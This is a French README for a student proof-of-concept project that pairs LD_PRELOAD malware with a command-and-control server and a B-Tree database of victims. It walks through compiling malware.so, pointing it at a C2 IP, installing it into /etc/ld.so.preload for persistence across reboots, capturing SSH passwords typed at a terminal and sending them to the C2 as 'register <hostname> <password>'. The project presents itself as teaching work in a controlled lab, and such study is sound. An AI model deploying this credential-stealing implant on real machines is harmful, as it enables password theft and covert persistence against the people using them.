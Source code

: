 # 🐍 Projet Malware LD_PRELOAD + Serveur C2 avec Base B-Tree (ESGI 3SIJ)

## 👥 Auteurs

- **Angelov Onur**
- **Slimani Anis**

---

## 🧠 Description du projet

Ce projet est une preuve de concept (POC) de malware utilisant la technique `LD_PRELOAD`. Il permet :

- l’interception de mots de passe saisis dans le terminal (ex : SSH),
- l’exfiltration vers un serveur distant C2,
- l’enregistrement persistant dans une base de données en **C** utilisant une structure en **B-Tree**.

---

## 🚀 Clonage du projet

```bash
git clone https://github.com/Runo76/CC1-DATABASE-ESGI
cd CC1-DATABASE-ESGI
```

---

## 📁 Structure du projet

```text
CC1-DATABASE-ESGI/
├── server/                    # Serveur C2 (écoute, enregistre les victimes)
│   ├── server.c
│   ├── register_victim.c
│   ├── Makefile
│   └── ...
├── BTreeDB/                   # Base de données des victimes (B-Tree)
│   ├── author.md
│   ├── btree.c/.h/.o
│   ├── table.c/.h/.o
│   ├── repl.c/.h/.o
│   ├── persistence.c/.h/.o
│   ├── main.c/.o
│   ├── database.db           # Fichier de base de données persistante
│   ├── id_counter.txt        # Compteur ID auto-incrémenté
│   ├── db.txt, db/, tests/   # Données et tests
│   ├── Makefile, README.md
│   └── BTreeProject/
├── LD_PRELOAD/malware/       # Malware LD_PRELOAD (client espion)
│   ├── malware.c
│   ├── send_to_c2.c
│   ├── malware.so            # Généré après compilation
│   ├── Makefile
│   └── add_to_ldso.sh        # Script pour activer automatiquement LD_PRELOAD
└── README.md
```

---

## 💻 VM 1 – Serveur C2

### 🛠️ Prérequis

Installer le serveur SSH :

```bash
sudo apt update
sudo apt install openssh-server
```

Changer le port SSH (optionnel, exemple : `Port 5555`), puis redémarrer :

```bash
sudo nano /etc/ssh/sshd_config
sudo systemctl enable ssh
sudo systemctl start ssh
```

### 🔧 Compilation du serveur et de la base

**Terminal 1 – Compilation de la base BTree:**

```bash
cd BTreeDB
make clean
make
```

**Terminal 2 – Compilation du serveur:**

```bash
cd server
make clean
make
```

### 🚀 Lancement du serveur C2

```bash
./server
```

Le serveur écoute sur le port `5555`. Il reçoit :

- `register <hostname> <password>` → inséré dans la base
- `log <hostname> <commande>` → affiché dans le terminal

---

## 💻 VM 2 – Malware LD_PRELOAD (IP a modifier)

### 🛠️ Prérequis

```bash
sudo apt update
sudo apt install openssh-server
```

### ⚙️ Configuration du malware

Dans le fichier `send_to_c2.c`, modifier :

```c
#define C2_IP "192.168.1.20"
#define C2_PORT 5555
```

---

### 🔧 Compilation et injection automatique

```bash
cd LD_PRELOAD/malware
make
chmod +x add_to_ldso.sh
sudo ./add_to_ldso.sh
```

> Ce script ajoute le chemin absolu de `malware.so` dans `/etc/ld.so.preload`.

---

## 🐚 Fonctionnalités du malware

| Fonction                        | Description                                                                                 |
|---------------------------------|---------------------------------------------------------------------------------------------|
| 🔑 Exfiltration de mot de passe | Intercepte les entrées `password:` dans un terminal                                         |
| 📦 Envoi vers serveur C2        | Envoie les credentials avec : `register <hostname> <password>`                             |
| 🚫 Blocage fichiers sensibles   | Bloque l'accès à `/etc/passwd`, `/etc/shadow` (via `open()`) même en `sudo`                |
| 💾 Persistance en B-Tree        | Enregistrement dans `database.db` avec un ID unique                                         |
| 🧠 Injection SSH testable       | Exemple : `LD_PRELOAD=./malware.so ssh user@192.168.1.xx`                                  |
| 🔁 Injection automatique        | Ajout dans `/etc/ld.so.preload` pour persistance même après reboot                         |

---

## 📊 Vérification de la base (sur la VM C2)

```bash
cd BTreeDB
./db
```

Lancer la commande dans la CLI :

```
db > select
Commande disponible detaillé dans le README.md du dossier BTreeDB
```

> Résultat exemple :
```
(1, anisdebian, 1478)
(2, onur, 1234)
```
___________________________________________________
```
#Comment utiliser les commande db ?
Voici des exemples de commandes :

db > insert 1 anis anis@gmail.com (id | nom ou autre | mail, mdp ou autre)
___________________________________________________
db > select
db > (affiche) 1 anis anis@gmail.com
___________________________________________________
db > update 1 Anis2 1254 (id | nom ou autre | mail, mdp ou autre)
db > select
db >(affiche)  1 Anis2 1254
___________________________________________________
db > delete 1  (juste delete id)
db > .exit
```
# 🧪 Exemple de test complet

1. **Lancer le serveur sur la VM 1** :

```bash
(Après compilation db et server)
cd server
./server
```

2. **Sur la VM 2 (malware)** :

```bash
cd LD_PRELOAD/malware
make
chmod +x add_to_ldso.sh
sudo ./add_to_ldso.sh
```

3. **Effectuer une commande avec mot de passe :**

```bash
LD_PRELOAD=./malware.so ssh user@192.168.1.xx
```

> Le mot de passe sera intercepté et envoyé au serveur.

4. **Vérifier dans la base (VM1) :**

```bash
cd BTreeDB
./db
> select
```

---

## ❌ Désactivation du malware

```bash
sudo rm /etc/ld.so.preload
```

---

## 📎 Remarques

- Le fichier `database.db` est mis à jour automatiquement à chaque nouvelle victime.
- Le projet fonctionne dans un environnement contrôlé (POC pédagogique).
